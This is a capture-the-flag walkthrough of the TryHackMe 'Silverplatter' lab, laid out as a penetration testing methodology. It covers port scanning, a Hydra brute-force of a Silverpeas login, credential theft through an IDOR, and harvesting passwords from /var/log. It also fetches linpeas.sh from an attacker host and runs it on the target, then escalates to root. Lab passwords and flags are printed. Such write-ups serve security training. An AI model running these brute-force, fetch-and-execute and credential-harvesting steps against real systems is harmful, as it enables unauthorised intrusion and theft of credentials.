

# 🛡️ Penetration Tester Methodology

* **IP Target:** `10.10.203.80`
* **Machine Name:** `Silverplatter.thm`
* **TryHackMe Lab:** [Silverplatter](https://tryhackme.com/room/silverplatter)

---

### 🖥️ Host Enumeration
- **Update** `/etc/hosts`
- To simplify access using a domain name instead of IP:
```bash
$ echo "10.10.203.80 Silverplatter.thm" | sudo tee -a /etc/hosts
```

- **Ping the Host**
- Check if the host is reachable:
```bash
$ ping -c 3 Silverplatter.thm
```
- Result:
```matlab
3 packets transmitted, 3 received, 0% packet loss
```
- The host is up and responsive.

---

### 🔍 PortScanning & Service Enumeration

- **Nmap Scan**
```bash
$ nmap -p- Silverplatter.thm
$ nmap -p 22,80,8080 -A Silverplatter.thm
```

- **RustScan**
```bash
# Install RustScan tool
$ sudo wget https://github.com/bee-san/RustScan/releases/download/2.4.1/x86-linux-rustscan.zip
$ sudo unzip x86-linux-rustscan.zip
$ echo $PATH
/usr/local/bin
$ sudo mv rustscan /usr/local/bin/
```
- We ran it on the target IP address `10.10.203.80` to perform an aggressive scan
```bash
$ rustscan -a Silverplatter.thm -- -A
```
- Scan Results:
    - `22`: SSH
    - `80`: HTTP (nginx)
    - `8080`: HTTP Proxy

---

### Web Application Enumeration
- **SSH (22)**
```bash
$ ssh root@Silverplatter.thm
```
- SSH uses password based authentication.

---

### 📁 Directory & VHost Enumeration
- **FFUF – Directory Bruteforce**
```bash
$ ffuf -u http://Silverplatter.thm/FUZZ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
- Result
```yaml
assets                  [Status]
```

- **FFUF – Virtual Host Enumeration**
```bash
$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Silverplatter.thm" -u http://Silverplatter.thm/ --fs 14124
```
- Result
```yaml
clienti, way, madmax
```

---

### 🌐 Website Observations
* **CMS:** Silverpeas
* **Found Username:** scr1ptkiddy
* **Screenshots:**


---

### 🚀 Exploitation Phase

* **📄 Create Custom Password List with cewl**
```bash
$ sudo apt install cewl -y
$ cewl http://Silverplatter.thm > custom-password.txt
``` 

* **🔐 Test Login Form (Manual)**
- Test login form.


```
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.203.80:8080
Content-Type: application/x-www-form-urlencoded
...
Login=scr1ptkiddy&Password=test&DomainId=0
```

* **💣 Hydra – Brute-Force Login**
```bash
$ hydra -l scr1ptkiddy -P custom-password.txt Silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect"
```
- Found Credentials
```
login: scr1ptkiddy   password: adipiscing
```


- **Caido**


- **✅ Login Success Screenshot**
- Use the credentials that I found to login the form.


---

### 🆔 IDOR Discovery & Credential Dump
- IDOR found by inspecting requests
- Found another set of credentials:
```
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

### SSH Access as tim
```bash
$ ssh tim@Silverplatter.thm
```

- **🪪 Post Exploitation – user.txt**
```bash
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{c4ca4238a0b923820dcc509a6f75849b}
```

* **🔐 Sudo Privileges** 
```bash
tim@silver-platter:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```

* **👥 Escalating to tyler**
- Check `/etc/passwd`
```bash
$ tim@silver-platter:~$ cat /etc/passwd
tyler:x:1000:1000:root:/home/tyler:/bin/bash
```

* **🛡️ ADM Group Privileges**
```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

* **🧪 LinPEAS Enumeration**
```bash
# Attacker
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80

# Target
tim@silver-platter:~$ wget http://<attacker-ip>/linpeas.sh
tim@silver-platter:~$ chmod +x linpeas.sh
tim@silver-platter:~$ ./linpeas.sh
```

- **🔍 Found Docker Logs with Password**
```bash
tim@silver-platter:/tmp$ cd /var/log
tim@silver-platter:/var/log$ grep -ir "password"
# tyler password: _Zd_zx7N823/
```

---

### 🔐 Privilege Escalation to Root

* **Switch to Tyler**
```bash
tim@silver-platter:/home$ su tyler
# Password: _Zd_zx7N823/

tyler@silver-platter:/home$ sudo su

root@silver-platter:/home# whoami
root

root@silver-platter:/home# ls
tim  tyler

root@silver-platter:/home# cd /root/

root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh

root@silver-platter:~# cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```

---
